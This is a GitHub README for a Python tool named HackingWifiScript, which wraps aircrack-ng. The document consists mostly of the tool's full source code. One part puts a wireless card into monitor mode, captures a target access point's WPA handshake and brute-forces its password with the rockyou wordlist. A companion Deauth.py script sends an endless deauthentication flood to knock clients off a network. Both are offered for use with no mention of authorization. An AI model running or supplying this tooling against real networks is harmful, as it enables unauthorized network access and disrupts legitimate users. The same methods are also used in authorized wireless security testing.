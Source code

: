 # HackingWifiScript
This script written in python3 was created for simplified brute force scanning using the aircrack-ng utility.<br><br>
__You can look at the repository where everything is described in detail. <a href="https://github.com/John-MetrosSoftware/HackingWifi">Link</a>.__
## Installation for python3
### Libraries
- <a href="https://pypi.org/project/prompt-toolkit/0.5/">prompt_toolkit</a>

```
git clone https://github.com/John-MetrosSoftware/HackingWifiScript
cd HackingWifiScript
pip3 install prompt_toolkit
python3 HackingWifiScript.py
```

## Installation aircrack-ng
```
sudo apt install aircrack-ng
```


## HackingWifiScript.py

### Imports
```python3
import os
import sys
from prompt_toolkit import prompt
```

### Scanning 
```python3
def scan_wifi(): 
    # Removing redundant processes
    os.system('sudo airmon-ng check kill')

    # Display network devices
    os.system('sudo airmon-ng')

    # Display the name of the network device (default: wlan0)
    device = prompt('Device [wlan0]: ')
    if device.replace(' ', '') == '':device = 'wlan0'

    # Switching network device to monitor mode
    os.system('sudo airmon-ng start {}'.format(device))

    # Start scanning wifi networks
    os.system('sudo airodump-ng {}'.format(device))

    # Handshake name
    cap = prompt('Handshake name: ')
    if cap.replace(' ', '') == '':
        print('Error! You did not enter the name of the handshake. ({}).'.format(cap))
        while True:
            cap = prompt('Handshake name: ')
            if cap.replace(' ', '') != '':
                break

    # Access point channel
    cannel = prompt('Cannel: ')
    if cannel.replace(' ', '') == '':
        print('Error! You have not entered a channel. ({}).'.format(cannel))
        while True:
            cannel = prompt('Cannel: ')
            if cannel.replace(' ', '') != '':
                break

    # Access point bssid
    bssid = prompt('Bssid: ')
    if bssid.replace(' ', '') == '':
        print('Error! You did not enter bssid. ({}).'.format(cannel))
        while True:
            bssid = prompt('Bssid: ')
            if bssid.replace(' ', '') != '':
                break

    # Running a specific wifi network scan
    os.system('sudo airodump-ng -w {} -c {} --bssid {} {}'.format(cap, cannel, bssid, device))
```

### Bruteforce
```python3
def brute_force():
    while True:
        # Handshake input
        cap = prompt('Handshake name: ')  
        if cap.replace(' ', '') == '':
            print('Error! You did not enter the name of the handshake. ({})'.format(cap))
            while True:
                cap = prompt('Handshake name: ')
                if cap.replace(' ', '') != '':
                    break

        # Getting a dictionary file
        if os.path.isfile(cap) == True:
            list_ = prompt('List [/usr/share/wordlists/rockyou.txt]: ')
            if list_.replace(' ', '') == '':
                list_ = '/usr/share/wordlists/rockyou.txt'
            break
        else:
            print('Error! Could not find handshake file. ({}).'.format(cap))

    # Bruteforce
    os.system('aircrack-ng {} -w {}'.format(cap, list_))
```

### Main
```python3
def main():
    os.system('clear || cls')
    print('1. Scanning\n2. Bruteforce\n3. Exit\n')
    select = prompt('Select menu item $ ')
    if select == '1':
        scan_wifi()
    elif select == '2':
        brute_force()
    elif select == '3':
        sys.exit()
    else:
        print('Invalid parameter: \'{}\''.format(select))
```

### Init
```python3
if __name__ == '__main__':
    while True:
        try:
            main()
        except Exception as error:
            print('Error: {}'.format(error))
```

## Deauth.py
### Imports
```python3
import os
import sys
```

### Main
```python3
def main():
    os.system('sudo aireplay-ng --deauth 0 -a {} {}'.format(str(sys.argv[1]), str(sys.argv[2])))
```

### Init
```python3
if __name__ == '__main__':
    try:
        sys.argv[1]
        sys.argv[2]
    except:
        print('Error! Not enough launch options.')
        sys.exit()
    main()
```

 

## Compilation
I usually compile my projects using the <a href="https://pypi.org/project/pyinstaller/">pyinstaller</a> compiler with the following parameters:
```
pyinstaller -F HackingWifiScript.py
pyinstaller -F Deauth.py
```

When making edits in the code or other changes, mark the author I want to know how the project is developing.
## PEP8
<a href="https://pypi.org/project/autopep8/">autopep8</a> automatically formats Python code to conform to the PEP 8 style guide. It uses the pycodestyle utility to determine what parts of the code needs to be formatted. autopep8 is capable of fixing most of the formatting issues that can be reported by pycodestyle.
```
autopep8 HackingWifiScript.py --recursive --in-place
autopep8 Deauth.py --recursive --in-place
```
## Developer 
Email    : wwwkali00312@gmail.com<br>
Telegram : https://t.me/metrossoftware
